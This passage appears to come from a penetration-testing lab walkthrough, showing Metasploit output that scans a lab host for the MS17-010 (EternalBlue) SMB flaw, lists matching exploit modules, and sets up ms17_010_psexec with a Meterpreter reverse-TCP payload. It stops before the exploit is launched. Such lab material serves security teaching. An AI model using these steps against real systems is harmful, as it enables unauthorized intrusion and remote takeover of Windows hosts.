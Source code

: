 ```powershell

RHOSTS => 10.129.201.97
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.129.201.97:445     - Host is likely VULNERABLE to MS17-010! - Windows Server 2016 Standard 14393 x64 (64-bit)
[*] 10.129.201.97:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

3. Select Exploit and payload, then deliver
msf6 > search eternal

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   2  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   3  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   4  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

For this instance, we dug through MSF's exploit modules utilizing the search function to look for an exploit matching EternalBlue.
The list above was the result. Since I have had more luck with the psexec version of this exploit, we will try that one first. Let's choose it and continue the setup.

Configuring the exploit options
msf6 > use 2
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) > options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting              Required  Description
   ----                  ---------------              --------  -----------
   DBGTRACE              false                        yes       Show extra debug trace info
   LEAKATTEMPTS          99                           yes       How many times to try to leak transaction
   NAMEDPIPE                                          no        A named pipe that can be connected to (leave bl
                                                                ank for auto)
   NAMED_PIPES           /usr/share/metasploit-frame  yes       List of named pipes to check
                         work/data/wordlists/named_p
                         ipes.txt
   RHOSTS                                             yes       The target host(s), range CIDR identifier, or h
                                                                osts file with syntax 'file:<path>'
   RPORT                 445                          yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                no        Service description to to be used on target for
                                                                 pretty listing
   SERVICE_DISPLAY_NAME                               no        The service display name
   SERVICE_NAME                                       no        The service name
```
